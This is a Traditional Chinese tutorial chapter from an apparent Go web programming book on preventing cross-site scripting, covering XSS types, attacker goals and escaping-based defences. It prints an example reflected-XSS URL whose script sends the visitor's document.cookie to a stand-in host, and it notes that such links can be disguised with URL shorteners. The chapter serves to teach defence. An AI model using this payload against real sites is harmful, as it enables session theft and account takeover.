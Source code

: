 # 9.3 避免 XSS 攻擊
隨著網際網路技術的發展，現在的 Web 應用都含有大量的動態內容以提高使用者體驗。所謂動態內容，就是應用程式能夠根據使用者環境和使用者請求，輸出相應的內容。動態站點會受到一種名為“跨站指令碼攻擊”（Cross Site Scripting, 安全專家們通常將其縮寫成 XSS）的威脅，而靜態站點則完全不受其影響。

## 什麼是 XSS

XSS 攻擊：跨站指令碼攻擊(Cross-Site Scripting)，為了不和層疊樣式表(Cascading Style Sheets, CSS)的縮寫混淆，故將跨站指令碼攻擊縮寫為 XSS。XSS 是一種常見的 web 安全漏洞，它允許攻擊者將惡意程式碼植入到提供給其它使用者使用的頁面中。不同於大多數攻擊(一般只涉及攻擊者和受害者)，XSS 涉及到三方，即攻擊者、客戶端與 Web 應用。XSS 的攻擊目標是為了盜取儲存在客戶端的 cookie 或者其他網站用於識別客戶端身份的敏感資訊。一旦取得到合法使用者的資訊後，攻擊者甚至可以假冒合法使用者與網站進行互動。

XSS 通常可以分為兩大類別：一類別是儲存型 XSS，主要出現在讓使用者輸入資料，供其他瀏覽此頁的使用者進行檢視的地方，包括留言、評論、部落格日誌和各類別表單等。應用程式從資料庫中查詢資料，在頁面中顯示出來，攻擊者在相關頁面輸入惡意的指令碼資料後，使用者瀏覽此類別頁面時就可能受到攻擊。這個流程簡單可以描述為 : 惡意使用者的 Html 輸入 Web 程式->進入資料庫->Web 程式->使用者瀏覽器。另一類別是反射型 XSS，主要做法是將指令碼程式碼加入 URL 地址的請求引數裡，請求引數進入程式後在頁面直接輸出，使用者點選類似的惡意連結就可能受到攻擊。

XSS 目前主要的手段和目的如下：

- 盜用 cookie，取得敏感資訊。
- 利用植入 Flash，透過 crossdomain 許可權設定進一步取得更高許可權；或者利用 Java 等得到類似的操作。
- 利用 iframe、frame、XMLHttpRequest 或上述 Flash 等方式，以（被攻擊者）使用者的身份執行一些管理動作，或執行一些如 : 發微博、加好友、發私信等常規操作，前段時間新浪微博就遭遇過一次 XSS。
- 利用可被攻擊的域受到其他域信任的特點，以受信任來源的身份請求一些平時不允許的操作，如進行不當的投票活動。
- 在訪問量極大的一些頁面上的 XSS 可以攻擊一些小型網站，實現 DDoS 攻擊的效果

## XSS 的原理
Web 應用未對使用者提交請求的資料做充分的檢查過濾，允許使用者在提交的資料中摻入 HTML 程式碼(最主要的是“>”、“<”)，並將未經轉義的惡意程式碼輸出到第三方使用者的瀏覽器解釋執行，是導致 XSS 漏洞的產生原因。

接下來以反射性 XSS 舉例說明 XSS 的過程：現在有一個網站，根據引數輸出使用者的名稱，例如訪問 url：`http://127.0.0.1/?name=astaxie`，就會在瀏覽器輸出如下資訊：

	hello astaxie

如果我們傳遞這樣的 url：`http://127.0.0.1/?name=&#60;script&#62;alert(&#39;astaxie,xss&#39;)&#60;/script&#62;`，這時你就會發現瀏覽器跳出一個彈出框，這說明站點已經存在了 XSS 漏洞。那麼惡意使用者是如何盜取 Cookie 的呢？與上類似，如下這樣的 url：`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`，這樣就可以把當前的 cookie 傳送到指定的站點：`www.xxx.com`。你也許會說，這樣的 URL 一看就有問題，怎麼會有人點選？，是的，這類別的 URL 會讓人懷疑，但如果使用短網址服務將之縮短，你還看得出來麼？攻擊者將縮短過後的 url 透過某些途徑傳播開來，不明真相的使用者一旦點選了這樣的 url，相應 cookie 資料就會被髮送事先設定好的站點，這樣子就盜得了使用者的 cookie 資訊，然後就可以利用 Websleuth 之類別的工具來檢查是否能盜取那個使用者的賬戶。

更加詳細的關於 XSS 的分析大家可以參考這篇叫做《[新浪微博 XSS 事件分析](http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)》的文章。

## 如何預防 XSS

答案很簡單，堅決不要相信使用者的任何輸入，並過濾掉輸入中的所有特殊字元。這樣就能消滅絕大部分的 XSS 攻擊。

目前防禦 XSS 主要有如下幾種方式：

- 過濾特殊字元

	避免 XSS 的方法之一主要是將使用者所提供的內容進行過濾，Go 語言提供了 HTML 的過濾函式：

	text/template 套件下面的 HTMLEscapeString、JSEscapeString 等函式

- 使用 HTTP 頭指定型別

```Go

`w.Header().Set("Content-Type","text/javascript")`

這樣就可以讓瀏覽器解析 javascript 程式碼，而不會是 html 輸出。

```
## 總結
XSS 漏洞是相當有危害的，在開發 Web 應用的時候，一定要記住過濾資料，特別是在輸出到客戶端之前，這是現在行之有效的防止 XSS 的手段。

## links
   * [目錄](<preface.md>)
   * 上一節: [確保輸入過濾](<09.2.md>)
   * 下一節: [避免 SQL 注入](<09.4.md>)
